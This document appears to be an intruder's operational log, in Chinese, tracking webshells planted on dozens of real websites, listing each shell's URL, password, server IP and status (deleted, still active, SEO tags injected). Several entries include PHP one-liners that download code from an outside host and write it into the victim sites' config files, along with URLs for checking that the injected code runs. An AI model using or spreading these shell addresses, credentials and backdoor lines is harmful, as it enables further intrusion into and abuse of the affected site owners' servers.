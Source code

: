 ## 用ant插件连
## 挂逼的
http://zjnqxj.com/upload/attached/20200624/bam.php |mmk123  0524 掉了 | 211.149.164.178
baileyip.com 备案屏蔽

https://www.whdryer.com/template/index_bk.php ->big |wso | 218.247.87.158  大马不能执行
https://www.tongcheng99.cn/10249_10245/m1.php |mmk123 | 8.140.244.215  文件无法编辑
/www/wwwroot/jiaoyou/application/index/view/index/index.html
http://www.xrca.com.cn/static/index_bk.php |mmk123 | 101.200.217.38  网站维护中
https://www.beihaices.top/index_bk.php |mmk123 | 111.229.186.206  404 被删了
https://www.honggutai.com/index_bk.php |mmk123 | 8.137.167.188  404 被删了
http://www.dlzfsw.com/uploads/download//20240515/664475333bb27.php |mmk123 | 39.105.130.166 网站无法正常打开
http://www.szytcm8.com/template/default/ucenter/users/uct.php |mmk123 | 119.91.119.119 网站无法正常打开
http://imvone.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.32.150  一个表单填写页面，无价值
http://hgpgy.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.38.45 一个表单填写页面，无价值
http://cbttx.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 172.67.182.214 一个表单填写页面，无价值
http://jrjgs.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 172.67.193.186 一个表单填写页面，无价值
https://guigujs.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.29.76 一个表单填写页面，无价值
http://www.newbooda.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.82.126  一个表单填写页面，无价值


## 完成的
211.149.164.178  已批量TDK修改
211.149.164.178 0601 全掉了
http://cndysm.com/upload/m1.php |mmk123 | 211.149.164.178    0529 被删除
http://cndysm.com/upload/attached/20200819/detail.php | 211.149.164.178  0601 被删除
http://yhzheyang.com/e/source/functions.php | 211.149.164.178 0601被删除  
http://yhboye.com/upload/attached/20191122/bam.php | 211.149.164.178 0601被删除  
http://xjjdhm.com/upload/file/bam.php | 211.149.164.178
http://wlsisheng.com/e/script/m/photoswipe/bam.php | 211.149.164.178
http://tzzhcb.com/e/images/icon/bam1.php | 211.149.164.178
http://tzyttfsb.com/e/editor/plugins/file_manager/images/bam1.php | 211.149.164.178
http://tzyjtz.com/e/script/photoswipe/bam1.php | 211.149.164.178
http://tzxitong.com/e/editor/plugins/image/images/bam1.php | 211.149.164.178
http://tzsyfzzx.com/aspnet_client/system_web/4_0_30319/bam1.php | 211.149.164.178
http://tzrongfang.com/e/editor/plugins/image/images/bam1.php | 211.149.164.178
http://tzrfcc.com/e/editor/plugins/image/images/bam1.php | 211.149.164.178
http://tzmfmj.com/e/editor/plugins/file_manager/images/folder/bm.php | 211.149.164.178
http://tzmaijie.com/e/ckeditor/plugins/clipboard/dialogs/bm.php | 211.149.164.178
http://tzlymjg.com/e/editor/plugins/image/images/66.php | 211.149.164.178
http://tzlxdp.com/e/ckeditor/images/bm.php | 211.149.164.178
http://tzlongfute.com/e/ver.php | 211.149.164.178
http://tzlhhj.com/upload/attached/20200316/bm.php | 211.149.164.178
http://tzhylf.com/upload/attached/20191107/bm.php | 211.149.164.178
http://tzhc1688.com/e/editor/php/JSON.php | 211.149.164.178
http://tzdssj.com/e/images/icon/b62m.php | 211.149.164.178
http://tzcdmj.com/upload/attached/20191106/b62m.php | 211.149.164.178
http://rj-yh.com/upload/attached/20210402/gss.php | 211.149.164.178
http://pcoxy.com/e/images/login/b6m.php | 211.149.164.178
http://lhyfpx.com/e/editor/plugins/image/images/b6m.php | 211.149.164.178
http://lccltt.com/upload/b6m.php | 211.149.164.178
http://dosejd.com/e/highslide/graphics/outlines/b6m.php | 211.149.164.178
http://cy-zdh.com/upload/attached/20200419/b6m.php | 211.149.164.178


regular: 
39.107.65.243 阿里云
已批量修改
https://www.sdbcsw.com/apps/home/model//m1.php | 39.107.65.243  www.sdbcsw.com/puiblic.php  最新版
修改点:
/www/wwwroot/www.sdbcsw.com/template/www.sdbcsw.com/html/common/head.html
https://www.maifusd.com/static/upload/image/20231219/m1.php |mmk123 | 39.107.65.243
https://www.bkmjxs.cn/uploads/20211106//m1.php |mmk123 | 39.107.65.243
https://www.bkfhauv.com/static/ueditor/php/m1.php |mmk123 | 39.107.65.243
https://www.biobasebaby.com/uploads/images/20210621/m1.php |mmk123 | 39.107.65.243
https://www.gx-biosensor.com/uploads/210329/210329/210329/210329//m1.php |mmk123 | 39.107.65.243

http://www.zhishifufei.xyz/static/upload/image/20211005/m1.php |mmk123 | 1.94.24.175
http://cfvvv.com/template/dx/images/m1.php |mmk123 | 42.194.134.121  后台登陆页面


http://www.xn--wlq673eova83m.cn/core/extend/code/simple.php |mmk123 | 124.222.129.233
http://www.lgms56.cn/skin/images/m1.php |mmk123 | 114.55.130.128

http://yqyb.fun/template/template_init.php |mmk123 | 154.212.146.242   0526-  403了
http://cablewiresfactory.com/template/template_init.php |mmk123 | 216.224.127.219    403

https://www.taiyangnengludengweixiu.com/uploads/20230227/m1.php |mmk123 | 8.140.244.215
https://hnsjtjsxh.cn/   河南省交通技术协会  已经有半岛 已批量改
代码更新：
https://hnsjtjsxh.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
https://hnsjtjsxh.cn/config/httpd.php?d=up


http://reshihuoke.cn/template/default/html/comm/m1.php |mmk123 | 124.221.145.227
代码更新：
http://reshihuoke.cn/rewrite/nginx.php  名字任意
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
http://reshihuoke.cn/config/httpd.php?d=up

http://360ai.cc/wp-content/languages/themes/m1.php |mmk123 | 124.221.145.227
https://www.crystunion.com/template/default/simple.php |mmk123 | 47.105.45.80
https://www.tzsps.com/static/images/m1.php |mmk123 | 106.54.60.101

## 待办：
regular: 
http://fangac.cn/three/three.js-master/docs/api/ar/audio/m1.php |mmk123 | 114.55.58.214
主要是管理后台 已改

https://www.1000ma.net/static/backup/sql/m1.php |mmk123 | 120.77.152.51  Done

https://gxzhiyin.cn/skin/fonts/m1.php |mmk123 | 211.101.244.147  连不上

https://www.nbtongpin.com/template/default/defaults.php-big |wso | 139.129.34.1  大马不会玩 0530 被删了 

https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 | 101.201.103.109  已留下 https://www.jiucaimiao.cn/us.php  0608被删了

http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 | 120.77.250.124 已留下 http://www.gzchaoyinsu.com/us.php OK

http://118.178.126.253/template/default/bootstrap/js/js.php |mmk123 | Invalid domain 已留下 http://118.178.126.253/us.php

http://www.kongquewangxiao.com/themes/js/js.php |mmk123 | 121.196.161.139  珍宝网络
代码更新： 
www.kongquewangxiao.com/fonts/glyphicons-halflings-regular.php
<?php file_put_contents("/www/wwwroot/www.kongquewangxiao.com/us.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
http://www.kongquewangxiao.com/us.php


大马：
https://www.whdryer.com/template/index_bk.php ->big |wso | 218.247.87.158
https://yearstar.odeo.cn/index_bk.php |wso | 219.234.30.92
https://www.nbtongpin.com/template/default/defaults.php |wso | 139.129.34.1
https://www.sxxzcm.com/index_bk.php  |wso | 120.53.238.180
https://www.alsophila.net/indexbak.php|Admin001... | 111.229.208.84

RSA:
http://www.juheyuanjing.com/template/template_init.php |mmk123 | 129.227.60.74  0608 Done
代码更新：
http://www.juheyuanjing.com/doc/log.php
<?php file_put_contents("/www/users/HK1592764/WEB/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juheyuanjing.com/config/httpd.php?d=up
